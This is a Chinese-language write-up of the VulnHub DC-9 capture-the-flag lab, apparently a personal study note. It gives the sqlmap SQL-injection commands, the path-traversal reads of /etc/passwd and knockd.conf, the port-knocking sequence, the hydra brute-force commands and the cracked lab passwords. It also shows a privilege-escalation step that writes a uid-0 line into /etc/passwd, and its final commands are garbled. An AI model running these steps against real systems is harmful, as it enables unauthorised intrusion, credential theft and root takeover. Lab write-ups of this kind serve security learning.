





# DC9

- [参考](https://blog.csdn.net/adminuil/article/details/104055711?ops_request_misc=%7B%22request%5Fid%22%3A%22158264597519724811848754%22%2C%22scm%22%3A%2220140713.130056874..%22%7D&request_id=158264597519724811848754&biz_id=0&utm_source=distribute.pc_search_result.none-task)

- [学习](https://blog.csdn.net/crisprx/article/details/103985898)

- [下载](https://www.vulnhub.com/entry/dc-9,412/)

所有事情最终都会来到终焉😀。永远相信，美好的事情即将发生。 --小米

## 初探

先扫描


```
nmap -sP 192.168.31.0/24
```


```
nmap -sT -sV -T5 -A -p- 192.168.31.69
```



## 初探

访问80查看页面，发现在manage.php中可以进行登录。这里我们肯定要得到管理员账户密码，每个页面进行fuzz，发现在results.php中存在严重的POST类型SQL注入。

```
sqlmap -u "http://192.168.31.69/results.php" --data="search=1'" --dbs
sqlmap  -u "http://192.168.31.69/results.php" --data="search=1'"  -D Staff --dump
sqlmap  -u "http://192.168.31.69/results.php" --data="search=1'"  -D users --dump
```



sqlmap注入成功，具体不再演示，拿到数据如下。

staff表下：



Staff 库中其中admin账户密码hash值用Sqlmap自带的字典能够解密出来.

` admin账户 密码为：transorbital1`

users表下：


users 库跑出了一堆账号密码，可能一会儿能用到吧。

尝试登陆一下admin。


并没有任何其他的区别，只是可以增加能 `Add Record`，并没有任何实质功能.

其实这里我要好好感谢一下 Google 页面自动翻译 `File does not exist` 我头皮发麻的时候忽然想起，DC5中的文件包含。那就试试看呗。再使用DC5时的字典跑一遍。




跑的时候直接默认和DC5一样跑了 发现也没错。

发现确实存在 文件包含 漏洞，可以读取 `/etc/passwd`,要是能还能读取 `/etc/shadow` 就好了,可惜读不得。

到这里我就嘎住了，看了其他大佬的wp，发现是要爆破一个 `/etc/knockd.conf` 文件端口敲门：

如果你有一台公众可访问的服务器，黑客可以轻松扫描其IP地址，查找服务器上的开放端口(尤其是用于SSH的端口22)。将服务器隐藏起来、不让黑客看见的一种方法是使用knockd。knockd是一种端口试探服务器工具。它侦听以太网或其他可用接口上的所有流量，等待特殊序列的端口命中(port-hit)。telnet或Putty等客户软件通过向服务器上的端口发送TCP或数据包来启动端口命中。

端口敲门服务，即：knockd服务。该服务通过动态的添加iptables规则来隐藏系统开启的服务，使用自定义的一系列序列号来“敲门”，使系统开启需要访问的服务端口，才能对外访问。不使用时，再使用自定义的序列号来“关门”，将端口关闭，不对外监听。进一步提升了服务和系统的安全性。

换句话说，如果知道自定义的端口，逐个进行敲门，这样我们就能够开启SSH端口，从而进行连接。

文章链接：- https://blog.csdn.net/crisprx/article/details/103985898

构造 `../../../../../etc/knockd.conf` 路径。看看文件内容


这样得知依次需要打开的端口分别为：7469、8475、9842,knock打开端口需要nmap，从攻击机中打开端口：

```
nmap -p 7469 192.168.31.69	
nmap -p 8475 192.168.31.69
nmap -p 9842 192.168.31.69
```

成功依此访问后使用nmap查看22端口是否打开，发现已经打开。

 

使用 `hydra` 爆破

```
hydra -l admin -p password ftp://localhost/
hydra -L default_logins.txt -p test ftp://localhost/
hydra -l admin -P common_passwords.txt ftp://localhost/
hydra -L logins.txt -P passwords.txt ftp://localhost/
```

爆破得到三个用户：
```
chandlerb UrAG0D!
joeyt     Passw0rd
janitor   Ilovepeepee
```

## 提权

登录SSH，遍历目录后（注意应该使用ls -la查看隐藏文件或目录），发现只有janitor用户存在隐藏可读文件，打开后是其他密码。u1s1，这个靶场的作者是真的搞 普京的密码 你爬吧。😂


大佬的wp中指出，很可能是其他用户的密码，使用 hydra 继续爆破一下。

```
fredf 密码：B4-Tru3-001
```
查看一下 那些代码有root权限
```
sudo -l
```


查看一下 `/opt/devstuff/dist/test/`

```
cd /opt/devstuff/dist/test/
type test
```


进行查看发现是一个python脚本



当Python传入的参数是三个的时候，可以把第二个的读出，并写入到第三个的尾端，而第一个参数就是test.py,如何构造好这两个参数就是重点。

直接向 passwd 文件中写用户 注：密码是加密后的值。

```
echo 'pavan:1pavan$qv9M3fBmtDPrOTBZflNl81:0:0::/root:/bin/bash'
sudo ./test /tmp/test/etc/passwd'
sudo test
```


## 总结

该靶场大致要点为： 
1. sqlmap使用
2. 文件包含的利用
3. hydra爆破ssh
4. Port Knocking 敲门服务
5. sudo的权限列举

更新笔记：
1. 内网渗透
2. 渗透工具(hydra)
3. 提权骚操作

